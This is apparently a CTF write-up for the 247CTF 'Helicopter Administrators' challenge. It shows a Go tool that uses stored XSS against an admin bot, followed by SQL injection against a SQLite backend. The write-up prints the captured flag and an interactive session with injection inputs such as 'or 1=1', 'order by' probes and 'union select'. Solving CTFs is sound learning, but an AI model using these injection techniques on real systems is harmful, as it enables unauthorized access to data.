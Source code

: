 ### Helicopter Administrators Solved ( Rated Hard ) - 300 points

```
This applications administrators are very aggressive. They will immediately view any page you report. Can you trick them into disclosing data they shouldn't? 
```

1- Change 	`urlBase` varible to your generated url:

```go
string = "https://feef92c0eb0c14bf.247ctf.com
```

Then you are ready to go:
To get only the flag, run the following:


```go
*$ go run cmd/xss/main.go              
[+] Advanced XSS Challenge at 247ctf.com - HELICOPTER ADMINISTRATORS
[+] Cleaning stuff..
[+] Sending XSS Payload..
[+] Reporting the comment - Go Admin!..
[+] Parsing the HTML Page ..
[+] Sending Search data ..
{"message":[[1,2,3,4,5,"247CTF{c9355024736f1fdfa121e243c7024540}"]],"result":"success"}

*$ 
```

You also have interactive shell with the backend of the `sqlite`

```sh
*[master]yas3r@linux[/mnt/WindowsDrive/xss-challenge]$ go run cmd/xss/main.go -h
Usage of /tmp/go-build950372382/b001/exe/main:
  -interactive
    	[+] Interactive to manual SQL injection!
exit status 2
*[master]yas3r@linux[/mnt/WindowsDrive/xss-challenge]$ 
```

Lets try to interactive with the backend databse:

```bash
*[master]yas3r@linux[/mnt/WindowsDrive/xss-challenge]$ go run cmd/xss/main.go --interactive
[+] Advanced XSS Challenge at 247ctf.com - HELICOPTER ADMINISTRATORS
[+] Cleaning stuff..
[+] Sending XSS Payload..
[+] Reporting the comment - Go Admin!..
[+] Parsing the HTML Page ..
[+] Sending Search data ..
#-> 1
{"message":[[1,"Michael Owens",14,22,3,"Sydney, Australia"]],"result":"success"}

#-> 1337 or 1=1;--
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}

#-> 1337 order by 1;--
{"message":[],"result":"success"}

#-> 1337 order by 7;--
{"message":"SQLite error: 1st ORDER BY term out of range - should be between 1 and 6","result":"error"}

#-> 1337 union select 1,2,3,4,5,6;--
{"message":[[1,2,3,4,5,6]],"result":"success"}

```

